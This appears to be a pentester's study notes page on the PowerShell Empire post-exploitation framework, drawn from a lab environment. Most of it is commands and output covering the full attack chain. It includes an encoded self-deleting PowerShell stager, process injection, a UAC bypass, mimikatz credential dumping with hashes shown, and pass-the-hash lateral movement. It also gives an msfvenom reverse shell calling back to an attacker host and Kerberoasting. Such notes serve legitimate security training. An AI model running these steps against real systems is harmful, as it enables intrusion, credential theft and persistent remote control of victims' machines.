


>[!summary]
>Empire is a "PowerShell and Python post-exploitation agent" with a heavy focus on client-side exploitation and post-exploitation of Active Directory (AD) deployments. PowerShell Empire project is no longer supported by the original developers, but updated forks have been created such as [BC-SECURITY](https://github.com/BC-SECURITY/Empire). The forked version has recently released a version 3.0.

>[!info]
>Empire is designed as a post-exploitation tool targeted primarily at Active Directory environments. It tends to leverage built-in features of the target operating system and its major applications.



## Listeners

Equivalent to [msfconsole](msfconsole.md) > [Multi Handler](msfconsole.md), **listeners** accept inbound connections from various Empire agents.

```bash
(Empire) > listeners
[!] No listeners currently active
(Empire: listeners) > uselistener
dbx 	http_com 		http_hop 	meterpreter
http 	http_foreign 	http_mapi 	redirector

(Empire: listeners) > uselistener http
(Empire: listeners/http) > info
...
Host True http://10.11.0.4:80 Hostname/IP for staging.
...

(Empire: listeners) > set Host 10.11.0.4

(Empire: listeners/http) > execute
[*] Starting listener 'http'
* Serving Flask app "http" (lazy loading)
* Environment: production
WARNING: Do not use the development server in a production environment.
Use a production WSGI server instead.
* Debug mode: off
[+] Listener successfully started!
(Empire: listeners/http) > back
```

## Stagers

They are **small pieces of code** generated by Empire that are **executed on the victim and connect back to a listener**. They set up a connection between the victim and the attacker and perform additional tasks to facilitate the transfer of a staged payload.

```bash
(Empire: listeners) > usestager
multi/bash 			    osx/launcher 		    windows/launcher_bat
multi/launcher 		  osx/macho 			    windows/launcher_lnk
multi/macro 		    osx/macro 			    windows/launcher_sct
multi/pyinstaller 	osx/pkg 			      windows/launcher_vbs
multi/war 			    osx/safari_launcher windows/launcher_xml
osx/applescript 	  osx/teensy 			    windows/macro
osx/application 	  windows/bunny 		  windows/macroless_msword
osx/ducky 			    windows/dll 		    windows/teensy
osx/dylib 			    windows/ducky
osx/jar 			      windows/hta
(Empire: listeners) > usestager windows/launcher_bat
(Empire: stager/windows/launcher_bat) > info
...
(Empire: stager/windows/launcher_bat) > set Listener http
(Empire: stager/windows/launcher_bat) > execute
[*] Stager output written out to: /tmp/launcher.bat
...
kali@kali:/opt/Empire$ cat /tmp/launcher.bat
@echo off
start /b powershell -noP -sta -w 1 -enc SQBGACgAJABQAFMAVgBlAHIAcwBp...
start /b "" cmd /c del "%~f0"&exit /b
```

## Agents

An agent is simply the **final payload** retrieved by the stager, and it **allows us to execute commands** and interact with the system.
After successful execution of the stager script, an initial agent call will appear in our Empire session:

```bash
(Empire: stager/windows/launcher_bat) > [+] Initial agent S2Y5XW1L from 10.11.0.22 now active (Slack)
...
(Empire: stager/windows/launcher_bat) > agents
[*] Active agents:
Name Lang Internal IP Machine Name Username Process Delay
--------- ---- ----------- ------------ --------- ------- -----
S2Y5XW1L ps 10.11.0.22 CLIENT251 corp\offsec powershell/2976 5/0.0

(Empire: agents) > interact S2Y5XW1L
(Empire: S2Y5XW1L) > sysinfo
(Empire: S2Y5XW1L) > sysinfo: 0|http://10.11.0.4:80|corp|offsec|CLIENT251|10.11.0.22|M
icrosoft Windows 10 Pro|False|powershell|2976|powershell|5
Listener: http://10.11.0.4:80
Internal IP: 10.11.0.22
Username: corp\offsec
Hostname: CLIENT251
OS: Microsoft Windows 10 Pro
High Integrity: 0
Process Name: powershell
Process ID: 2976
Language: powershell
Language Version: 5
...
```

### Migrate process

Empire allows us to migrate our payload into a different process. We can do that by first using `ps` to view all running processes.
Once we choose our target process, we’ll migrate the payload with `psinject` command, including the name of the listener and the process id as our command arguments:

```bash
(Empire: S2Y5XW1L) > ps
ProcessName PID Arch UserName MemUsage
----------- --- ---- -------- --------
Idle 0 x86 N/A 0.00 MB
System 4 x86 N/A 0.00 MB
........
explorer 3568 x86 corp\offsec 3.41 MB
svchost 3820 x86 corp\offsec 9.18 MB
........

(Empire: S2Y5XW1L) > psinject http 3568
[*] Tasked U9M3SBHG to run TASK_CMD_JOB
[*] Agent U9M3SBHG tasked with task ID 4
[*] Tasked agent U9M3SBHG to run module powershell/management/psinject
Job started: BCMWAV
[*] Agent U9M3SBHG returned results
[*] Sending POWERSHELL stager (stage 1) to 10.11.0.22
[*] New agent DWZ49BAP checked in
[+] Initial agent DWZ49BAP from 10.11.0.22 now active (Slack)
[*] Sending agent (stage 2) to DWZ49BAP at 10.11.0.22 //-->

Empire: DWZ49BAP) > agents
[*] Active agents:
Name Lang Internal IP Machine Name Username Process Delay
--------- ---- ----------- ------------ --------- ------- -----
S2Y5XW1L ps 10.11.0.22 CLIENT251 corp\offsec powershell/2976 5/0.0
DWZ49BAP ps 10.11.0.22 CLIENT251 corp\offsec explorer/3568 5/0.0
(Empire: agents) > interact DWZ49BAP
```

### Powershell Modules

The power of Empire agents lies in the various **modules** offered by the framework. The modules are divided into **multiple categories** but also include basic features such as keylogging, screenshots, and file downloads.

```bash
(Empire: S2Y5XW1L) > usemodule
Display all 204 possibilities? (y or n)
code_execution/invoke_dllinjection
code_execution/invoke_metasploitpayload
code_execution/invoke_ntsd
code_execution/invoke_reflectivepeinjection
code_execution/invoke_shellcode
code_execution/invoke_shellcodemsil
collection/ChromeDump
collection/FoxDump
collection/USBKeylogger*
collection/WebcamRecorder
collection/browser_data
...
```

Most important categories are:

- `situational_awareness/`: there are many methods and commands for performing **network enumeration**, but the primary focus of this category is on **local client** and **Active Directory enumeration** (under the `PowerView` directory).
    
    ```bash
    (Empire:2Y5XW1L) > usemodule situational_awareness/network/powerview/get_user
    (powershell/situational_awareness/network/powerview/get_user) > info
    Name: Get-DomainUser
    Module: powershell/situational_awareness/network/powerview/get_user
    NeedsAdmin: False
    OpsecSafe: True
    Language: powershell
    MinLanguageVersion: 2
    Background: True
    OutputExtension: None
    Agent True S2Y5XW1L Agent to run module on.
    ...
    
    > (powershell/situational_awareness/network/powerview/get_user) > execute
    Job started: LP1URA
    ...
    distinguishedname : CN=Jeff_Admin,OU=Admins,OU=CorpUsers,DC=corp,DC=com
    objectclass : {top, person, organizationalPerson, user}
    displayname : Jeff_Admin
    lastlogontimestamp : 2/19/2019 8:15:57 PM
    userprincipalname : jeff_admin@corp.com
    name : Jeff_Admin
    objectsid : S-1-5-21-3048852426-3234707088-723452474-1104
    samaccountname : jeff_admin
    admincount : 1
    codepage : 0
    samaccounttype : USER_OBJECT
    accountexpires : NEVER
    ...
    ```
    
    > The [Bloodhound](Bloodhound.md) module is especially noteworthy. It automates much of PowerView’s functionality, collecting all computers, users, and groups in the domain as well as all currently logged-in users. The output is stored in CSV files suitable for use with the backend [Bloodhound](Bloodhound.md) application, which uses graph theory to highlight often-overlooked and highly complex attack paths in an Active Directory environment.
    
- `powershell/privesc/`: The privesc category contains **privilege escalation modules**. One of the more interesting modules in this group is `powerup/allchecks` ([ref](https://www.powershellempire.com/?page_id=378)). It uses several techniques based on misconfigurations such as unquoted service paths, improper permissions on service executables, and much more.
    
    ```bash
    (Empire: powershell/situational_awareness/network/powerview/get_user) > usemodule powershell/privesc/powerup/allchecks
    (Empire: powershell/privesc/powerup/allchecks) > execute
    Job started: N459AD
    [*] Running Invoke-AllChecks
    [*] Checking if user is in a local group with administrative privileges...
    [+] User is in a local group that grants administrative privileges!
    [+] Run a BypassUAC attack to elevate privileges to admin.
    ...
    ```
    
    The `bypassuac_fodhelper` module is quite useful if we have access to a local administrator account. Depending on the local Windows version, this module can bypass UAC and launch a high-integrity PowerShell Empire agent.
    
    ```bash
    Empire: S2Y5XW1L) > usemodule privesc/bypassuac_fodhelper
    (Empire: powershell/privesc/bypassuac_fodhelper) > info
    Options:
    Name Required Value Description
    ---- -------- ------- -----------
    Listener True Listener to use.
    UserAgent False default User-agent string to use for the staging request (default, none, or other).
    Proxy False default Proxy to use for request (default, none, or other).
    Agent True S2Y5XW1L Agent to run module on.
    ProxyCreds False default Proxy credentials
    ([domain\]username:password) to use for request (default, none, or other).
    
    (Empire: powershell/privesc/bypassuac_fodhelper) > set Listener http
    (Empire: powershell/privesc/bypassuac_fodhelper) > execute
    [>] Module is not opsec safe, run? [y/N] y
    
    (Empire: powershell/privesc/bypassuac_fodhelper) >	
    Job started: 4STVDU
    [+] Initial agent K678VC13 from 10.11.0.22 now active (Slack)
    (Empire: powershell/privesc/bypassuac_fodhelper) >
    ```
    
- `credentials/`: The credentials category contains multiple [mimikatz](mimikatz.md) commands that have been ported into Empire. The commands marked with an **asterisk** require a **high-integrity Empire agent**.
    
    ```bash
    (Empire: agents) > interact K678VC13
    (Empire: K678VC13) > usemodule credentials/
    credential_injection*   mimikatz/extract_tickets    mimikatz/sam*
    enum_cred_store         mimikatz/golden_ticket      mimikatz/silver_ticket
    mimikatz/logonpasswords*
    ...
    ```
    
    Empire uses reflective [DLL injection](https://github.com/stephenfewer/ReflectiveDLLInjection) to load the mimikatz library into the agent directly from memory. Loading our malicious executable in this way minimizes the risk of detection since most EDR solutions only analyze files stored on the hard drive.
    
    ```bash
    (Empire: K678VC13) > usemodule credentials/mimikatz/logonpasswords
    (Empire: powershell/credentials/mimikatz/logonpasswords) > execute
    Job started: NXK271
    Hostname: client251.corp.com / S-1-5-21-3048852426-3234707088-723452474
    mimikatz(powershell) # sekurlsa::logonpasswords
    Authentication Id : 0 ; 244851 (00000000:0003bc73)
    Session : Interactive from 1
    User Name : offsec
    Domain : corp
    Logon Server : DC01
    Logon Time : 2/20/2019 10:36:32 PM
    SID : S-1-5-21-3048852426-3234707088-723452474-1103
    msv :
    [00000003] Primary
    * Username : offsec
    * Domain : corp
    * NTLM : e2b475c11da2a0748290d87aa966c327
    * SHA1 : 8c77f430e4ab8acb10ead387d64011c76400d26e
    * DPAPI : c10c264a27b63c4e66728bbef4be8aab
    tspkg :
    wdigest :
    * Username : offsec
    * Domain : corp
    * Password : (null)
    kerberos :
    * Username : offsec
    * Domain : CORP.COM
    * Password : (null)
    ssp :
    credman :
    ...
    ```
    
- `lateral_movement/`: contains all the module that allows to perform lateral movement actions:
    
    ```bash
    (Empire: K678VC13) > usemodule lateral_movement/technique
    inveigh_relay           invoke_psremoting   invoke_wmi
    invoke_dcom             invoke_smbexec      invoke_wmi_debugger
    invoke_executemsbuild   invoke_sqloscmd     jenkins_script_console
    invoke_psexec           invoke_sshcommand   new_gpo_immediate_task
    
    (Empire: K678VC13) > usemodule lateral_movement/invoke_smbexec
    (Empire: powershell/lateral_movement/invoke_smbexec) > set ComputerName client251
    (Empire: powershell/lateral_movement/invoke_smbexec) > set Listener http
    (Empire: powershell/lateral_movement/invoke_smbexec) > set Username jeff_admin
    (Empire: powershell/lateral_movement/invoke_smbexec) > set Hash e2b475c11da2a0748290d87aa966c327
    (Empire: powershell/lateral_movement/invoke_smbexec) > set Domain corp.com
    (Empire: powershell/lateral_movement/invoke_smbexec) > execute
    Command executed with service CVTERKCMPMMECQLRWLKB on client251
    [*] Sending POWERSHELL stager (stage 1) to 10.11.0.22
    [*] New agent UXVZ2NC3 checked in
    [+] Initial agent UXVZ2NC3 from 10.11.0.22 now active (Slack)
    ...
    
    (Empire: K678VC13) > agents
    [*] Active agents:
    Name Lang Internal IP Machine Name Username Process Delay
    --------- ---- ----------- ------------ --------- ------- -----
    S2Y5XW1L ps 10.11.0.22 CLIENT251 corp\offsec powershell/2976 5/0.0
    DWZ49BAP ps 10.11.0.22 CLIENT251 corp\offsec explorer/3568 5/0.0
    K678VC13 ps 10.11.0.22 CLIENT251 *corp\offsec powershell/6236 5/0.0
    UXVZ2NC3 ps 10.11.0.22 CLIENT251 *corp\SYSTEM powershell/3912 5/0.0
    (Empire: agents) > interact UXVZ2NC3
    (Empire: UXVZ2NC3) >
    ```
    
    > We can use either the set CredID command to specify the ID number of the entry from the credentials store or manually enter all the credentials.

### Interact with the credential store

```bash
(Empire: K678VC13) > creds
Credentials:
CredID CredType Domain UserName Host Password
------ -------- ------ -------- ---- --------
1 hash corp.com offsec client251 e2b475c11da2a0748290d87aa966c32
2 hash corp.com CLIENT251$ client251 4d4ae0e7cb16d4cfe6a91412b3d80ed

(Empire: K678VC13) > creds add corp.com jeff_admin Qwerty09!
Credentials:
CredID CredType Domain UserName Host Password
------ -------- ------ -------- ---- --------
1 hash corp.com offsec client251 e2b475c11da2a0748290d87aa966c32
2 hash corp.com CLIENT251$ client251 4d4ae0e7cb16d4cfe6a91412b3d80ed
3 plaintext corp.com jeff_admin Qwerty09!
```

---

## Switching Between Empire and Metasploit

> From PowerShell Empire version 2.4, it was possible to use a meterpreter listener and the injectshellcode module to inject a meterpreter shellcode directly in memory from PowerShell.


### Empire —> Metaslpoit

If a PowerShell Empire agent is active on the host, we can use [msfvenom](msfvenom.md) to generate a meterpreter reverse shell as an executable.

```bash
kali@kali:~$ msfvenom -p windows/meterpreter/reverse_http LHOST=10.11.0.4 LPORT=7777 -f exe -o met.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 633 bytes
Final size of exe file: 73802 bytes
Saved as: met.exe
```

We then set up a Metasploit listener using the multi/handler module and the previously-chosen settings:

```ruby
msf5 > use multi/handler
msf5 exploit(multi/handler) > set payload windows/meterpreter/reverse_http
payload => windows/meterpreter/reverse_http
msf5 exploit(multi/handler) > set LPORT 7777
LPORT => 7777
msf5 exploit(multi/handler) > set LHOST 10.11.0.4
LHOST => 10.11.0.4
msf5 exploit(multi/handler) > exploit
[*] Started HTTP reverse handler on http://10.11.0.4:7777
```

Now we switch back to our PowerShell Empire shell and upload the executable:

```bash
(Empire: S2Y5XW1L) > upload /home/kali/met.exe
[*] Tasked agent to upload met.exe, 72 KB
[*] Tasked S2Y5XW1L to run TASK_UPLOAD
[*] Agent S2Y5XW1L tasked with task ID 12
[*] Agent S2Y5XW1L returned results.
[*] Valid results returned by 10.11.0.22

(Empire: S2Y5XW1L) > shell dir
[*] Tasked S2Y5XW1L to run TASK_SHELL
[*] Agent S2Y5XW1L tasked with task ID 3
[*] Agent S2Y5XW1L returned results.
Directory: C:\Users\offsec.corp\Downloads>
Mode LastWriteTime Length Name
---- ------------- ------ ----
-a---- 10/2/2019 11:24 AM 73802 met.exe
..Command execution completed.
[*] Valid results returned by 10.11.0.22

(Empire: S2Y5XW1L) > shell C:\Users\offsec.corp\Downloads>met.exe
[*] Tasked S2Y5XW1L to run TASK_SHELL
[*] Agent S2Y5XW1L tasked with task ID 5
[*] Agent S2Y5XW1L returned results.
..Command execution completed.
[*] Valid results returned by 10.11.0.22
```

With the executable running, we’ll switch back to our meterpreter listener and watch the incoming shell:

```ruby
[*] Started HTTP reverse handler on http://10.11.0.4:7777
[*] http://10.11.0.4:7777 handling request from 10.11.0.22; Staging x86 payload (18082
[*] Meterpreter session 1 opened (10.11.0.4:7777 -> 10.11.0.22:50597)
meterpreter>
```

### Metasploit —> Empire

Reversing this process to connect to an Empire agent from an existing meterpreter session is also possible.

```bash
(Empire: listeners) > usestager windows/launcher_bat
(Empire: stager/windows/launcher_bat) > set Listener http
(Empire: stager/windows/launcher_bat) > execute
[*] Stager output written out to: /tmp/launcher.bat
```

Then we can upload and execute it:

```ruby
meterpreter > upload /tmp/launcher.bat
[*] uploading : /tmp/launcher.bat -> launcher.bat
[*] Uploaded 4.69 KiB of 4.69 KiB (100.0%): /tmp/launcher.bat -> launcher.bat
[*] uploaded : /tmp/launcher.bat -> launcher.bat
meterpreter > shell
Process 4644 created.
Channel 2 created.
C:\Users\offsec.corp\Downloads>dir
dir
Volume in drive C has no label.
Volume Serial Number is 9E6A-47F8
Directory of C:\Users\offsec.corp\Downloads
09/19/2019 08:42 AM <DIR> .
09/19/2019 08:42 AM <DIR> ..
09/19/2019 08:42 AM 4,802 launcher.bat
1 File(s) 4,802 bytes
2 Dir(s) 2,022,359,040 bytes free
C:\Users\offsec.corp\Downloads>launcher.bat
launcher.bat
```

Now we should receive an Empire agent from the compromised host:

```bash
(Empire: agents) > [+] Initial agent LEBYRW67 from 10.11.0.22 now active (Slack)
```

---

## Standalone scripts

Powershell standalone script can be found under `/usr/share/powershell-empire/data/module_source/`

### PowerView.ps1

Download: [PowerView download](https://github.com/PowerShellEmpire/PowerTools/blob/master/PowerView/powerview.ps1)

```powershell
PS C:\Tools\active_directory> Import-Module .\PowerView.ps1
```

Enumerate **logged-in users**:

```powershell
PS C:\Tools\active_directory> Get-NetLoggedon -ComputerName client251
wkui1_username wkui1_logon_domain wkui1_oth_domains wkui1_logon_server
-------------- ------------------ ----------------- ------------------
offsec 			  corp 								DC01
offsec 			  corp 								DC01
CLIENT251$ 		corp
CLIENT251$ 		corp
CLIENT251$ 		corp
CLIENT251$ 		corp
CLIENT251$ 		corp
CLIENT251$ 		corp
CLIENT251$ 		corp
CLIENT251$ 		corp
```

Enumerate **active sessions** on the domain controller:

```powershell
PS C:\Tools\active_directory> Get-NetSession -ComputerName dc01
sesi10_cname sesi10_username sesi10_time sesi10_idle_time
------------ --------------- ----------- ----------------
\\192.168.1.111 CLIENT251$ 		8			  8
\\[::1] DC01$ 					      6 			6
\\192.168.1.111 offsec 			  0 			0
```

The information obtained from the two APIs ended up being the same as we are targeting only a single machine, which also happens to be the one we are executing our script from. In a real Active Directory infrastructure, however, the information gained using each API might differ and would definitely be more helpful.

Enumerate users **without pre-auth enabled**:

```powershell
PS C:\Tools\active_directory> Get-DomainUser -PreauthNotRequired -Properties distinguishedname -Verbose
```

### Invoke-Kerberoast.ps1

The [Invoke-Kerberoast.ps1](https://github.com/EmpireProject/Empire/blob/master/data/module_source/credentials/Invoke-Kerberoast.ps1) script extends [[Active Directory Attacks#Service Account Attacks Kerberoasting https github com nidem kerberoast|Kerberoasting]] attack, and can automatically enumerate all service principal names in the domain, request service tickets for them, and export them in a format ready for cracking in both John the Ripper and [hashcat](hashcat.md), completely eliminating the need for Mimikatz in this attack.



### Powercat.ps1

[powercat](powercat.md) is the powershell version of [netcat](netcat.md) 

### PowerUp.ps1

Download: [https://www.powershellempire.com/?page_id=378](https://www.powershellempire.com/?page_id=378)